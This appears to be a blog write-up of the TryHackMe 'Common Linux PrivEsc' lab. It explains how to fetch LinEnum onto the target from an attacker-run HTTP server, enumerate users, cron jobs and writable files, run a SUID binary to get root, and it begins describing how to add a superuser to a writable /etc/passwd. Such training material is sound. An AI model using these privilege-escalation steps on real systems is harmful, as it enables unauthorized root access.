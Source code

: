 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks <span class="pink">1</span>, <span class="pink">2</span> and <span class="pink">3</span> don't need explanation.

## Task 4 : Enumeration

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

* * *
<p class="answer">Answer : there are 8 user[x] in the system.</p>
* * *
For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shells there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

* * *
<p class="answer">Answer : There are 4 shells in the system</p>
* * *

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

* * *
<p class="answer">Answer : The autoscript.sh file is located in the "/home/user4/Desktop" directory</p>
* * *

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5 : Abusing SUID/SGID Files

Checking for files with the `SUID/SGID` bit set is the go-to when first getting a shell on a machine if what we want is to escalata privileges.

If the `SUID` bit is set on a file, it means that the file will be executed with the same permissions as the owner of the file.
If the `SGID` bit is set on a file, the file will be executed with the permissions of the group that owns the file.
<p class="pink">Important : SUID and SGID have different behaviour when they are set in directories</p>

In order to find files with the SUID bit set, we can have a look at our `LinEnum` scan, or we can search them manually :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20suid%20files5.png" class="border" />

```
find / -perm -u=s -type f 2>/dev/null
```
>Again, we are using `find` with its `-perm` option, this time we specify that we want any of the permission bits set (`-u=s`) and we use `-type f` so that it only returns files.

It seems that there is an uncommon file with the SUID bit set : 

* * *
<p class="answer">Answer : /home/user3/shell</p>
* * *

Due to `shell` having the SUID set, we can execute it and gain superuser privileges on the machine :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/root5.png" class="border" />

```
ls -l /home/user3/shell
./shell
```
>To check if a file has the `SUID/SGID` bit set, we look at its permissions.
>
>If they are : `rws-rwx-rwx`, the `SUID` bit is set.
>
>If they are : `rwx-rws-rwx`, the `SGID` bit is set.
>
><span class="pink"> Notice that they are marked with the character</span> `s`.

## Task 6 : Exploiting writeable /etc/passwd

The `/etc/passwd` file stores valuable account information, <span class="pink">it doesn't contain passwords</span>, it contains a list of the accounts of the system and it provides information about each and every of them, such as user ID, group ID, home directory, etc.
This file needs to have read permissions because other utilities require them to properly work, however it must not have write permissions except for the root account.
When a user can write in the /etc/passwd file, it can lead to a security breach, which is what we are going to exploit right about now :

What direction privilege escalation is the attack?

<span class="pink">Horizontal privilege escalation</span> Occurs when we take over a user who is on the same privilege level as us.

<span class="pink">Vertical privilege escalation</span> takes place when we want to access an account which privileges are higher than ours.

* * *
<p class="answer"> Answer : Vertical</p>
* * *

The way to exploit the vulnerability that we have found (which is that /etc/passwd can be writen to by a non-superuser account) is adding a new line of text to /etc/passwd with the intention of creating a new account in the system, with the password that we decide, and superuser privileges.

**How is the /etc/passwd structured?**

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 4px #ADFF2F }
 .pink {
 text-shadow : 0px 0px 4px #ff6699 }
</style>
